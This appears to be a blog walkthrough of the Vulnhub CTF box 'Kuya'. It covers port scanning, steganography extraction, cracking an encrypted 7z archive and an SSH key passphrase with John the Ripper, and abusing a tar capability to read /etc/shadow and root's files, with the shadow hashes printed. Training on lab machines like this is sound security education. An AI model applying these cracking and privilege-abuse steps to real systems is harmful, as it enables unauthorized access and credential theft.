


Kuya Walkthrough
Description
In the last couple of days, Vulnhub published quite a few new boxes. One of them was Kuya. The difficulty is intermediate and you are required to have some knowledge in CTFs. By this, I mean that it contains steganography, which you are not likely to encounter in a real penetration testing scenario. Also, the author stated that there’ll be trolls ahead so we might come across with rabbit holes and dead ends. Enough said, let’s get started.
Scanning
I started with the nmap scan as usual and got the following result back:
▲ ~ nmap -A -sC -p- 192.168.1.187
Nmap scan report for mini (192.168.1.187)
Host is up (0.00031s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
| ssh-hostkey:
| 2048 11:33:6d:34:f3:f2:12:9d:c6:6c:07:54:f0:86:53:d6 (RSA)
| 256 45:77:11:0d:b4:c6:3e:a4:bc:7a:b2:5f:02:03:8e:37 (ECDSA)
|_ 256 00:27:20:4a:d8:b6:34:78:46:0e:cd:19:c2:9d:84:6a (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome
MAC Address: 08:00:27:39:31:D7 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
As you can see, we have 2 ports open. One of them is SSH, which is probably not vulnerable, so I continued with port 80. I ran dirb and nikto. I discovered a poorly configured wordpress installation, but the whole thing was a dead end. However, the initial site was working and contained some troll comments in the source.

The picture was stored in the loot directory and it had directory listing enabled. I used wget to easily and recursively download the files.
▲ ~ wget -r http://192.168.1.187/loot
--2019-03-03 20:19:50-- http://192.168.1.187/loot/1.jpg
Reusing existing connection to 192.168.1.187:80.
HTTP request sent, awaiting response... 200 OK
Length: 16834 (16K) [image/jpeg]
Saving to: ‘192.168.1.187/loot/1.jpg’
192.168.1.187/loot/1.jpg 100%[==================================>]
2019-03-03 20:19:50 (122 MB/s) - ‘192.168.1.187/loot/1.jpg’ saved [16834/16834]
--2019-03-03 20:19:50-- http://192.168.1.187/loot/2.jpg
Reusing existing connection to 192.168.1.187:80.
HTTP request sent, awaiting response... 200 OK
Length: 7964 (7,8K) [image/jpeg]
Saving to: ‘192.168.1.187/loot/2.jpg’
192.168.1.187/loot/2.jpg 100%[==================================>]
2019-03-03 20:19:50 (917 MB/s) - ‘192.168.1.187/loot/2.jpg’ saved [7964/7964]
--2019-03-03 20:19:50-- http://192.168.1.187/loot/3.jpg
Reusing existing connection to 192.168.1.187:80.
HTTP request sent, awaiting response... 200 OK
Length: 7087 (6,9K) [image/jpeg]
Saving to: ‘192.168.1.187/loot/3.jpg’
192.168.1.187/loot/3.jpg 100%[==================================>]
2019-03-03 20:19:50 (199 MB/s) - ‘192.168.1.187/loot/3.jpg’ saved [7087/7087]
--2019-03-03 20:19:50-- http://192.168.1.187/loot/4.jpg
Reusing existing connection to 192.168.1.187:80.
HTTP request sent, awaiting response... 200 OK
Length: 173688 (170K) [image/jpeg]
Saving to: ‘192.168.1.187/loot/4.jpg’
192.168.1.187/loot/4.jpg 100%[==================================>]
2019-03-03 20:19:50 (76,5 MB/s) - ‘192.168.1.187/loot/4.jpg’ saved [173688/173688]
--2019-03-03 20:19:50-- http://192.168.1.187/loot/image.jpeg
Reusing existing connection to 192.168.1.187:80.
HTTP request sent, awaiting response... 200 OK
Length: 17911 (17K) [image/jpeg]
Saving to: ‘192.168.1.187/loot/image.jpeg’
192.168.1.187/loot/image 100%[==================================>]
2019-03-03 20:19:50 (449 MB/s) - ‘192.168.1.187/loot/image.jpeg’ saved [17911/17911]
▲ ~ cd 192.168.1.187
▲ ~/192.168.1.187 ls
icons index.html loot
▲ ~/192.168.1.187 cd loot
▲ ~/192.168.1.187/loot ls
1.jpg 2.jpg 3.jpg 4.jpg image.jpeg
Steganography
I got 5 images and used steghide on them to see whether they contain embedded data or not. I simply left the passphrases empty.
▲ ~/192.168.1.187/loot steghide extract -sf 1.jpg
Enter passphrase:
wrote extracted data to "secret.txt".
▲ ~/192.168.1.187/loot steghide extract -sf 2.jpg
Enter passphrase:
wrote extracted data to "emb.txt".
▲ ~/192.168.1.187/loot steghide extract -sf 3.jpg
Enter passphrase:
steghide: could not extract any data with that passphrase!
▲ ~/192.168.1.187/loot steghide extract -sf 4.jpg
Enter passphrase:
wrote extracted data to "loot.pcapng".
▲ ~/192.168.1.187/loot steghide extract -sf image.jpeg
Enter passphrase:
wrote extracted data to "robots.txt".
One file was empty and one was pcapng, the other three were text files. Here are the contents of each text file. The first one contained base64 encoded text, which was not really helpful. The second one was a bit funnier, it contained some brainfuck programming language source code, so I just used an online interpreter to get the result.
The first flag: V2hhdCBpcyBCYWx1dCA/
The robots.txt contained the file names in that directory.
▲ ~/192.168.1.187/loot cat secret.txt
WW91IHJlYWxseSB0aG91Z2h0IGl0IHdvdWxkIGJlIHRoaXMgZWFzeSA/IEtlZXAgZGlnZ2luZyAhIExvdHMgb2YgdHJvbGxzIHRvIGRlZmVhdC4=
▲ ~/192.168.1.187/loot cat secret.txt | base64 -d
You really thought it would be this easy ? Keep digging ! Lots of trolls to defeat.
▲ ~/192.168.1.187/loot cat emb.txt
+[--->++<]>+.++[->++++<]>+.+++++++..[++>---<]>--.++[->++<]>.[--->+<]>+++.-.---------.--[--->+<]>-.+.-.--[->+++<]>-.[->+++++++<]>.++++++.---.[-->+++++<]>+++.+++[->++<]>.[-->+++<]>.+++++++++.+.+.[---->+<]>+++.+++[->++<]>.--[--->+<]>.-----------.++++++.-[--->+<]>--.-[--->++<]>-.++++++++++.+[---->+<]>+++.>+[--->++<]>.>-[----->+<]>-.++[->++<]>..----.-[--->++<]>+.-.--[++++>---<]>.-------------.-[--->+<]>+++.+[-->+<]>+++++.+.++[->+++++<]>.--.+[----->+<]>.--[++>---<]>.+[->++<]>.-[--->++<]>+.--.-[---->+++<]>-.
▲ ~/192.168.1.187/loot cat robots.txt
1.jpg
2."
3."
4."
5."
image.jpeg
Capturing the packets

There was not too much traffic in the packet capture. The only thing that stood out for me was the loot.7z file download. Wireshark has a handy feature that can export HTTP objects, you can find it under File -> Export object -> HTTP. This way, you can get the compressed file. I could have been easy if it was not encrypted.
▲ ~/Downloads 7z e loot.7z
Scanning the drive for archives:
1 file, 1976 bytes (2 KiB)
Extracting archive: loot.7z
--
Path = loot.7z
Type = 7z
Physical Size = 1976
Headers Size = 216
Method = LZMA2:12 7zAES
Solid = +
Blocks = 1
Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : loot/id_rsa
ERROR: Data Error in encrypted file. Wrong password? : loot/id_rsa.pub
Cracking the 7z archive
Time to use 7z2john to extract hash. Note that you should download and use john‘s bleeding jumbo version from Github, which contains the required files.
▲ ~/Downloads ./7z2john.pl loot.7z > crackme_7z
Now, simply pass the file to john and you are good to go.
▲ ~/Downloads john crackme_7z
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 0 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Wordlist
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any
Warning: Only 30 candidates buffered for the current salt, minimum 32
needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
manchester (loot.7z)
1g 0:00:06:47 DONE 2/3 (2019-03-03 17:04) 0.002453g/s 25.59p/s 25.59c/s 25.59C/s katrina..hermosa
Use the "--show" option to display all of the cracked passwords reliably
Session completed
▲ ~/Downloads john crackme --show
loot.7z:manchester
1 password hash cracked, 0 left
Getting the SSH keys
I extracted the file with the password manchester and tried to log in with the private key, but it required a password. Bummer! By the way, the username can be found in the public key file. I thought, why not use john again?! So, I used ssh2john to get the hash and cracked it the same way I cracked the 7z archive.
▲ ~/Downloads ssh -i id_rsa test@192.168.1.187
The authenticity of host '192.168.1.187 (192.168.1.187)' can't be established.
ECDSA key fingerprint is SHA256:zyMHWQ6tB6OR+dKyv0X7ZXx6oCbYuH9/YbAxBwd5TCw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.187' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':
test@192.168.1.187: Permission denied (publickey).
I went back to the downloaded bleeding edge john directory and used ssh2john to extract the hash.
▲ ~/Downloads ./ssh2john.pl id_rsa > crackme_ssh
You can see that the procedure is exactly the same as with the 7z file.
▲ ~/Downloads john crackme_ssh
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Wordlist
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8
needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any
Warning: Only 5 candidates buffered for the current salt, minimum 8
needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
hello (/root/Downloads/id_rsa)
Proceeding with incremental:ASCII
hello (/root/Downloads/id_rsa)
3g 0:00:00:46 3/3 (2019-03-03 18:01) 0.06518g/s 1800Kp/s 1800Kc/s 1800KC/s cpodso..cpop1.
Session aborted
▲ ~/Downloads john crackme_ssh --show
/root/Downloads/id_rsa:hello
1 password hash cracked, 0 left
Gaining access
The password was a simple hello. With this information, I was able to log in as test. The second flag was hidden in the sshscript.sh file.
▲ ~/Downloads ssh -i id_rsa test@192.168.1.187
Enter passphrase for key 'id_rsa':
Linux mini 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar 2 20:35:16 2019 from 192.168.43.203
test@mini:~$ ls -la
total 20
drwxr-xr-x 3 test root 4096 Dec 18 01:33 .
drwxr-xr-x 4 root root 4096 Dec 2 00:26 ..
-rw------- 1 test test 464 Dec 18 01:33 .bash_history
drwx------ 2 test test 4096 Dec 2 14:34 .ssh
-rw-r--r-- 1 test test 218 Mar 2 20:37 .wget-hsts
test@mini:~$ cd .ssh
test@mini:~/.ssh$ ls -la
total 24
drwx------ 2 test test 4096 Dec 2 14:34 .
drwxr-xr-x 3 test root 4096 Dec 18 01:33 ..
-rw-r--r-- 1 test test 391 Dec 2 14:34 authorized_keys
-rw------- 1 test test 1766 Dec 2 03:15 id_rsa
-rw-r--r-- 1 test test 391 Dec 2 03:15 id_rsa.pub
-rwxr-xr-x 1 test test 115 Dec 2 14:30 sshscript.sh
test@mini:~/.ssh$ cat sshscript.sh
#!/bin/bash
echo "FInally you got a shell ! Here's a flag for you 5256247262. Let's see where you go from here"
test@mini:~/.ssh$
The second flag: 5256247262
Privilege escalation
I did my usual enumeration, which included the LinEnum.sh script, but I couldn’t find anything useful like a kernel exploit or binaries with root privileges. Then, I went to the web server directory under /var/www/html and started looking for juicy files.
1 |
|
I found a database password in the wp-config-sample.php file. I used this information to switch user to kuya. Now, this was pretty easy. Let’s move on to his home directory. The who_dis.txt file contained the fourth flag.
kuya@mini:~$ cat who_dis.txt
Well Done !
BTW this was too easy :D
Here is something for you IL0v3C@f3HaV@nA
The fourth flag: IL0v3C@f3HaV@nA
Reading files as root
In the home directory, I noticed the .bash_history file. It’s always a good idea to check these, because they can contain valuable information.
kuya@mini:~$ cat .bash_history
cd /home/kuya
chown -R kuya
chown -R kuya /home/kiya
chown -R kuya /home/kuya
su root
cd /home/kuya
cat /etc/shadow
./tar -cvf shadow.tar /etc/shadow
tar -cvf shadow.tar /etc/shadow
which tar
getcap -r / 2>/dev/null
setcap cap_dac_read_search=ep
exit
I had to brush up my knowledge on the setcap and getcap commands, so I checked the corresponding man pages and searched the internet.
Linux’s thread/process privilege checking is based on capabilities. They’re flags to the thread that indicate what kind of additional privileges they’re allowed to use.
The setcap cap_dac_read_search=ep command means that we are able to bypass file read permission checks, directory read and execute permission checks. This capability was probably was set on the tar executable because the shadow file was compressed with it and this means that it can read files as root.
Reading the shadow file
I copied the tar command from the bash history and used it as it is. Then, I extracted the tar file and I was able to read the shadow file.
kuya@mini:~$ tar -cvf shadow.tar /etc/shadow
tar: Removing leading `/' from member names
/etc/shadow
kuya@mini:~$ tar xvf shadow.tar
etc/shadow
kuya@mini:~$ cat etc/shadow
root:$6$xmBqiwRc$UE1ERWQecpCHwNsyE4yhSYv8wMD1H1yvB4TCBZQaoZMuxioJ0c7xE/Q/WwiRK2Vdf2Y2KGeHCh4NHAq5L4JTg0:17863:0:99999:7:::
daemon:*:17863:0:99999:7:::
bin:*:17863:0:99999:7:::
sys:*:17863:0:99999:7:::
sync:*:17863:0:99999:7:::
games:*:17863:0:99999:7:::
man:*:17863:0:99999:7:::
lp:*:17863:0:99999:7:::
mail:*:17863:0:99999:7:::
news:*:17863:0:99999:7:::
uucp:*:17863:0:99999:7:::
proxy:*:17863:0:99999:7:::
www-data:*:17863:0:99999:7:::
backup:*:17863:0:99999:7:::
list:*:17863:0:99999:7:::
irc:*:17863:0:99999:7:::
gnats:*:17863:0:99999:7:::
nobody:*:17863:0:99999:7:::
systemd-timesync:*:17863:0:99999:7:::
systemd-network:*:17863:0:99999:7:::
systemd-resolve:*:17863:0:99999:7:::
systemd-bus-proxy:*:17863:0:99999:7:::
_apt:*:17863:0:99999:7:::
messagebus:*:17863:0:99999:7:::
sshd:*:17863:0:99999:7:::
kuya:$6$MpPRKfei$KvGUeoeKXHNg8iSzMHPST4vtIe3GbjAHAf2gtJijQciwLtaeBNMi0pHjx1BSetZB/au8x.yKF9SB.nLtW3WRT.:17863:0:99999:7:::
test:!:17865:0:99999:7:::
mysql:!:17867:0:99999:7:::
The root directory
After I confirmed that I can read files like I’m root, I used tar on the root directory. This way I could read the final flag, which was hidden in the M3M3L0rd.txt file.
The fifth flag: WeasleyIsOurKing
I don’t know if all of the flags are valid flags because the author planted 3 of them, but I found 5.
Root shell?!
I tried to crack the root password, but I gave up after some time… Sadly, I couldn’t find any other solution to get a root shell. Did you manage to get a root shell or did you do something different? Let me know, in the comments!
Before you go
If you found this article helpful, please share to help others with similar interest find it! + Feedback and donations are always welcome!